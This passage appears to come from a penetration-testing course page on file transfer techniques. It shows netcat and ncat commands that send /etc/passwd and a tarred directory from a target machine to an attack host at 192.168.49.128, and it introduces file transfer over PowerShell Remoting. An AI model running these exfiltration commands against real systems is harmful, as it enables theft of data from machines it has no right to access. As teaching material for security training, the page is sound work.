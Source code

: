 ### Netcat File Transfer Examples

#### Upload from Target to Attack Host

**Attack Host - Listen for incoming file:**
```bash
nc -l -p 8000 > received_file.txt
```

**Target Machine - Send file:**
```bash
nc 192.168.49.128 8000 < /etc/passwd
```

#### Encrypted Transfer with Ncat

**Attack Host - SSL listener:**
```bash
ncat -l -p 8000 --ssl --recv-only > received_file.txt
```

**Target Machine - SSL client:**
```bash
ncat 192.168.49.128 8000 --ssl --send-only < /etc/passwd
```

#### Netcat with Compression

**Sender:**
```bash
tar czf - /path/to/directory | nc 192.168.49.128 8000
```

**Receiver:**
```bash
nc -l -p 8000 | tar xzf -
```

## PowerShell Session File Transfer

We already talked about doing file transfers with PowerShell, but there may be scenarios where HTTP, HTTPS, or SMB are unavailable. If that's the case, we can use PowerShell Remoting, aka WinRM, to perform file transfer operations.

PowerShell Remoting allows us to execute scripts or commands on a remote computer using PowerShell sessions. Administrators commonly use PowerShell Remoting to manage remote computers in a network, and we can also use it for file transfer operations.

**Default Ports:**
- **HTTP:** TCP/5985
- **HTTPS:** TCP/5986

### Prerequisites

To create a PowerShell Remoting session on a remote computer, we need:
- Administrative access, OR
- Be a member of the Remote Management Users group, OR
- Have explicit permissions for PowerShell Remoting in the session configuration
